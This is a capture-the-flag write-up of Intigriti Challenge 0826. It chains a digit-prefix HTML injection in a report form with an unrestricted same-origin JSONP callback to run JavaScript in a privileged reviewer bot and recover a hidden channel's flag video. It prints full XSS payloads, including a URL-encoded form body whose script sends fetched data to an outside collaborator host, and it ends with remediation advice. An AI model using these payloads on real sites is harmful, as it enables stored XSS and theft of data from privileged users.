




# From a blocked channel to reviewer-side XSS: Intigriti Challenge 0826

*Write-up by killerlux*

The page looked small: ten video channels, one report form, and a bot somewhere behind it. The interesting part was the mismatch between those pieces. The frontend only exposed channels 1 through 10, the report form accepted more than the UI suggested, and the reviewer ran under a different access boundary.

The final chain was:

```text
numeric-leading HTML injection
        -> same-origin JSONP callback injection
        -> JavaScript in the privileged reviewer
        -> channel 11 filename
        -> flag video
```

## Finding the boundary

The page JavaScript loads a video through:

```text
GET /api/channels/{number}/load
```

It also contained a reference to an `X-Channel-Id` header that the visible interface never sent. Channels 1 through 10 were uninteresting, so I tried the next value directly:

```http
GET /api/channels/11/load HTTP/1.1
Host: challenge-0826.challenges.intigriti.io
X-Channel-Id: 11
```

The response established the control I needed:

```http
HTTP/1.1 403 Forbidden
Content-Type: text/plain; charset=utf-8

channel not available
```



This mattered later. Recovering a channel 11 filename would only be meaningful if the same request was denied outside the reviewer.

## The report form accepted more than a number

`POST /api/report` expects a `channelId`. Invalid input is rejected with `channel ID must start with a digit`, but that message describes the validation too literally: only the beginning has to be numeric.

A value such as this is accepted:

```html
1
```

The leading `1` satisfies the check. Everything after it reaches the reviewer as HTML.

That gave me stored HTML injection, but the obvious XSS payloads still failed. Inline event handlers and inline scripts were blocked, and loading a script from another origin was blocked as well. The browser policy was doing its job. I needed executable JavaScript from the challenge origin itself.

## JSONP was the missing script source

The application exposed a same-origin JSONP endpoint:

```http
GET /api/jsonp?callback=alert(1)// HTTP/1.1
Host: challenge-0826.challenges.intigriti.io
```

It returned the callback without restricting it to a function name:

```javascript
/**/ alert(1)//({"channels": 10});
```

The `//` comments out the object appended by the endpoint. More importantly, the response is JavaScript served from the same origin. A stored `<script src>` can therefore load it under the reviewer CSP:

```html
1<script src="/api/jsonp?callback=<URL-ENCODED-JAVASCRIPT>"></script>
```

At that point the two incomplete bugs fitted together. The report form supplied the script element, and JSONP supplied the executable same-origin body.

## Building the reviewer payload

The callback requests channels 11, 12, and 13 with matching headers, then sends each response to an attacker-controlled receiver:

```javascript
Promise.all([11, 12, 13].map(n =>
  fetch("/api/channels/" + n + "/load", {
    headers: {"X-Channel-Id": n}
  })
    .then(response => response.text())
    .then(text => {
      new Image().src =
        "https://ATTACKER.EXAMPLE/ch-" + n +
        "?v=" + encodeURIComponent(text);
    })
))//
```

The JavaScript is URL-encoded for the JSONP `callback`. The resulting `<script>` is then form-encoded as the `channelId` value.

<details>
<summary>Exact tested form body</summary>

```text
channelId=1%3Cscript%20src%3D%22%2Fapi%2Fjsonp%3Fcallback%3DPromise.all%2528%255B11%252C12%252C13%255D.map%2528n%253D%253Efetch%2528%2522%252Fapi%252Fchannels%252F%2522%252Bn%252B%2522%252Fload%2522%252C%257Bheaders%253A%257B%2522X-Channel-Id%2522%253An%257D%257D%2529.then%2528r%253D%253Er.text%2528%2529%2529.then%2528t%253D%253Enew%2520Image%2528%2529.src%253D%2522https%253A%252F%252Fda85kf3bqakvuc95sdh0fbrwzwu8491wt.oast.live%252Fch-%2522%252Bn%252B%2522%253Fv%253D%2522%252BencodeURIComponent%2528t%2529%2529%2529%2529%252F%252F%22%3E%3C%2Fscript%3E
```

</details>

Submitting it produced a queued reviewer job:

```http
HTTP/1.1 200 OK
Content-Type: application/json

{"id":"cf84d4bc4acc3197","status":"queued"}
```



## The response that mattered

The receiver got three requests. Channels 12 and 13 returned `channel not available`. Channel 11 returned something different:

```text
3b7c7029a954248116ad18348b2a51dad448400fe0b36a0098fa55dc0aef7437.mp4
```

The stream route was public once the filename was known:

```http
GET /static/streams/3b7c7029a954248116ad18348b2a51dad448400fe0b36a0098fa55dc0aef7437.mp4 HTTP/1.1
Host: challenge-0826.challenges.intigriti.io
```

```http
HTTP/1.1 200 OK
Content-Type: video/mp4
Content-Disposition: inline; filename=3b7c7029a954248116ad18348b2a51dad448400fe0b36a0098fa55dc0aef7437.mp4
```



Opening the three-second video completed the chain:



```text
INTIGRITI{019ff176-bc01-7543-9e81-46e417c8b39b}
```

## Why the chain works

Three implementation choices are individually incomplete but exploitable together:

1. `channelId` is checked only for a numeric first character, then rendered as HTML.
2. The CSP trusts scripts from the application origin.
3. `/api/jsonp` turns an arbitrary `callback` expression into same-origin JavaScript.

The direct `403` and the reviewer result show the boundary crossing. The attacker cannot request channel 11 directly, while JavaScript running in the reviewer can recover its opaque filename.

## Fix

Parse `channelId` as an integer and reject trailing characters before storing it. Escape the value when it is rendered in reviewer pages. Remove JSONP if it is unnecessary; otherwise restrict `callback` to a single safe identifier rather than accepting JavaScript expressions.

That closes both halves of the chain: the reviewer no longer receives attacker-controlled HTML, and the same-origin endpoint can no longer be used as a CSP-compatible script gadget.
